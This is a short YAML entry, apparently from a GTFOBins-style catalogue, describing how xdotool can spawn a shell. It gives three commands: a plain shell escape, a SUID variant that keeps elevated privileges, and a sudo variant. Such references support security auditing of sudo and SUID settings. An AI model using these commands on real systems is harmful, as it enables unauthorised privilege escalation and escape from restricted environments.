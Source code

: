 ```yaml
---
description: This requires a running X server.
functions:
  shell:
    - code: xdotool exec --sync /bin/sh
  suid:
    - code: ./xdotool exec --sync /bin/sh -p
  sudo:
    - code: sudo xdotool exec --sync /bin/sh
---
```

